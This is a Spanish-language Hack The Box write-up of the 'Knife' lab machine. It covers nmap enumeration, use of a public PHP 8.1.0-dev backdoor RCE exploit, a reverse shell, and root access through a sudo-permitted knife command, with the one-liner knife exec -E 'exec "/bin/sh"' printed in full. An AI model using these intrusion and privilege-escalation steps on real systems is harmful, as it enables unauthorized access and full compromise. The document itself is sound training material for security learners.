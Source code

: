 ```yaml
---
title: "HTB - Knife"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/knife.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
htb:
  status: true
  os: Linux
  developer: MrKN16H7
  level: Fácil
  date: 22 Mayo 2021
  point: 20
---
```


## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.242 y luego con el comando nmap -sCV -p22,80 10.10.10.242 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
# Nmap 7.92 scan initiated Mon Nov  1 23:48:04 2021 as: nmap -p22,80 -sCV -O -oN NMAP knife.htb
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  1 23:48:22 2021 -- 1 IP address (1 host up) scanned in 17.24 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la wfuzz para buscar paginas ocultas y poder acceder a ellas.

Con el código fuente de la pagina y wfuzz no encontramos nada en particular, pero WhatWeb nos dice que la pagina está escrita en 8.1.0-dev e investigando nos damos cuenta que hay un exploit (backdoor y rce) en el github de [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce){:target="_blank"}

Utilizamos este exploit y obtenermos acceso al usuario

## 1° Shell

Al entrar con el Exploit nos damos cuenta que tenemos una terminal muy básica y no podemos tratar la TTY por lo que primero abrimos una shell reverse y luego realizamos un tratamiento de TTY ([](https://gist.github.com/s4vitar/b88fefd5d9fbbdcc5f30729f7e06826e#tratamiento-de-la-tty){:target="_blank"}) así podemos obtener la primera flag.

## 2° SHELL (root)

Ya dentro del usuario james vemos si tiene algún permiso como root con el comando sudo -l y nos damos cuenta que tiene con el comando knife y este no necesita escribir la password.

	sudo -l
	Matching Defaults entries for james on knife:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User james may run the following commands on knife:
		(root) NOPASSWD: /usr/bin/knife

Con esto vemos en GTFObins si hay algún script de escalamiento de privilegios y vemos que si lo hay, lo que nos permite obtener root y poder ver la 2° flag

	$ knife exec -E 'exec "/bin/sh"'
	# whoami
	root

![Racso](https://www.hackthebox.com/badge/image/159593)